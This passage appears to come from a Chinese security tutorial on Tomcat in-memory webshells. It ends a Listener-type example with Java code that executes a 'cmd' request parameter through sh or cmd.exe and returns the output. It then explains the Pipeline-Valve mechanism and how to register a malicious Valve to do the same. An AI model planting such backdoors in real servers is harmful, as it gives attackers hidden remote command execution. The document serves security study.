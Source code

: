 ```java
            Request request = (Request) field.get(requestfacade);
            Response response = request.getResponse();
            if (request.getParameter("cmd") != null){
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
                String output = scanner.hasNext() ? scanner.next() : "";
                response.getOutputStream().write(output.getBytes());
                response.getOutputStream().flush();
                response.getOutputStream().close();
                return;
            }
        }catch(Exception ig){
            ig.printStackTrace();
        }
    }
}
```

参考：
[Tomcat-Listener型内存马](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Listener%E5%9E%8B/)
[Tomcat 内存马（二）：Listener 内存马](http://wjlshare.com/archives/1651)

### Valve
>Tomcat 在处理一个请求调用逻辑时，是如何处理和传递 Request 和 Respone 对象的呢？为了整体架构的每个组件的可伸缩性和可扩展性，Tomcat 使用了职责链模式来实现客户端请求的处理。在 Tomcat 中定义了两个接口：Pipeline（管道）和 Valve（阀）。这两个接口名字很好的诠释了处理模式：数据流就像是流经管道的水一样，经过管道上个一个个阀门
>整个调用过程是通过Pipeline-Valve管道进行的 ，Pipeline中有`addValve`方法，维护了Valve链表，Valve可以插入到Pipeline中，对请求做某些处理，Pipeline中是没有invoke方法的，因为整个调用链的触发是Valve来完成的，Valve完成自己的处理后，调用`getNext().invoke()`来触发下一个Valve调用

借用一张图说明：
![](https://img-blog.csdnimg.cn/10045e62b456430a8a6d5c427c96d2ac.png)

每个容器都有一个Pipeline对象，只要触发了这个Pipeline的第一个Valve，这个容器里的Pipeline中的Valve都会被调用到，其中，Pipeline中的`getBasic`方法获取的Valve处于Valve链的末端，它是Pipeline中必不可少的一个Valve， 负责调用下层容器的Pipeline里的第一个Valve 

#### 流程分析
Tomcat 中 Pipeline 仅有一个实现类`StandardPipeline`，存放在 ContainerBase 的 pipeline 属性中
![](https://img-blog.csdnimg.cn/2794af514db7482b87738b6a3e4703b8.png)
并且 ContainerBase 提供 addValve 方法调用 StandardPipeline 的 addValve 方法添加
四大组件`Engine/Host/Context/Wrapper`都有自己的Pipeline，在ContainerBase容器基类定义了，因此只要获取四大组件之一调用add方法即可添加
![](https://img-blog.csdnimg.cn/3b3540d460ca462a85f6d2ca5b311fdc.png)
看到在 `org.apache.catalina.connector.CoyoteAdapter` 的 service 方法中调用 Valve 的 invoke 方法
![](https://img-blog.csdnimg.cn/9be4737cf2274f0d963810338fb02282.png)
在invoke方法中我们能拿到request和response
>这里我们只要自己写一个 Valve 的实现类，为了方便也可以直接使用 ValveBase 实现类。里面的 invoke 方法加入我们的恶意代码，由于可以拿到 Request 和 Response 方法，所以也可以做一些参数上的处理或者回显。然后使用 StandardContext 中的 pipeline 属性的 addValve 方法进行注册
